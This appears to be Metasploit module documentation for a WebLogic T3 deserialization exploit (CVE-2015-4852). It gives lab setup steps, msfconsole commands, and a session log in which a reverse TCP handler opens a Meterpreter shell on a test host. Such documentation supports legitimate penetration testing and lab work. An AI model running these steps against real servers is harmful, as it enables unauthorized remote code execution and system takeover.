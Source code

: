 ## Description
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0 are vulnerable to a deserialization vulnerability
(CVE 2015-4852), which can be used to execute code on vulnerable systems. An unauthenticated user with network access
via T3 could exploit the vulnerability. This module has been tested against Oracle WebLogic Server v10.3.6.0 and
v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

Note that successful exploitation will output the following warning to the admin server console:

```
&lt;Mar 26, 2019 4:13:24 PM CDT&gt; &lt;Error&gt; &lt;RJVM&gt; &lt;BEA-000503&gt; &lt;Incoming message header or abbreviation processing failed
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
java.lang.ClassCastException: java.lang.Integer cannot be cast to java.util.Set
        at $Proxy57.entrySet(Unknown Source)
        at sun.reflect.annotation.AnnotationInvocationHandler.readObject(AnnotationInvocationHandler.java:327)
        at sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)
        at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:39)
        at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:25)
        Truncated. see log file for complete stacktrace
```

### Setup (Windows)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 on a Windows 7 SP1 x64 system.

1. Install the Java SE Development Kit 7 Update 80 (64-bit version) from [Oracle][1] (use the `jdk-7u80-windows-x64.exe`
  installer). Leave all options at their default values.
1. Download "Oracle WebLogic Server 10.3.6" from their [site][2]. Select the generic installer under the "Installers
  with Oracle WebLogic Server and Oracle Coherence" section, the file is named `wls1036_generic.jar`. You may need to
  register an account.
1. From an administrative command prompt, use java to run the jar file.
    * Run: `"C:\Program Files\Java\jdk1.7.0_80\bin\java.exe" -jar wls1036_generic.jar`
1. Leave all options at their default values.
    * OPTIONAL: When prompted to register for security updates, uncheck "I wish to receive security updates via My
      Oracle Support" and confirm that you do in fact wish to remain uninformed of *critical security* issues.
    * When prompted to select the installation type, use the default "Typical" setting.
    * At the end, leave "Run Quickstart" checked and select "Done".
1. From the Quick Start menu, select "Getting started with WebLogic Server 10.3.6" to launch the configuration wizard.
1. Complete this wizard using all of the default values.
    * When prompted to enter a password, set any desired value. Knowledge of the password is not required in order to
      demonstrate this vulnerability or modify any settings in the future.
1. Start the service by navigating to the Start Menu and selecting: `All Programs > Oracle WebLogic > User Projects >
  base_domain > Start Admin Server for WebLogic`.

### Setup (Linux)

Use the following steps to install a vulnerable instance of WebLogic v10.3.6.0 in a Docker container. The same image
used to demonstrate [CVE-2017-10271][3] can be used.

1. Use git to clone the vulhub/vulhub repository from GitHub.
    * Run: `git clone https://github.com/vulhub/vulhub`
1. From within the `weblogic/CVE-2017-10271` subdirectory, use Docker to run the image.
    * Run: `docker-compose up -d`
    * TCP port 7001 should now be listening on the host machine.

## Vulnerable Application
Oracle WebLogic Server v10.3.6.0, v12.1.2.0, v12.1.3.0, and v12.2.1.0.

## Verification Steps
1. `./msfconsole -q`
2. `use exploit/multi/misc/weblogic_deserialize_rawobject`
3. `set rhosts <rhost>`
4. `set rport <srvport>`
5. `exploit`

## Scenarios
### Windows 7 x64 running Oracle WebLogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
```
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rhost 192.168.192.6
rhost => 192.168.192.6
msf exploit(multi/misc/weblogic_deserialize_rawobject) > set rport 7001
rport => 7001
msf exploit(multi/misc/weblogic_deserialize_rawobject) > exploit

[*] Started reverse TCP handler on 192.168.192.136:4444 
[*] 192.168.192.6:7001 - Sending handshake...
[*] 192.168.192.6:7001 - Sending T3 request object...
[*] 192.168.192.6:7001 - Sending client object payload...
[*] Sending stage (179779 bytes) to 192.168.192.6
[*] Meterpreter session 7 opened (192.168.192.136:4444 -> 192.168.192.6:49266) at 2018-12-14 11:40:29 -0800

meterpreter > sysinfo
Computer        : GIOTTO-HS-W7
OS              : Windows 7 (Build 7600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
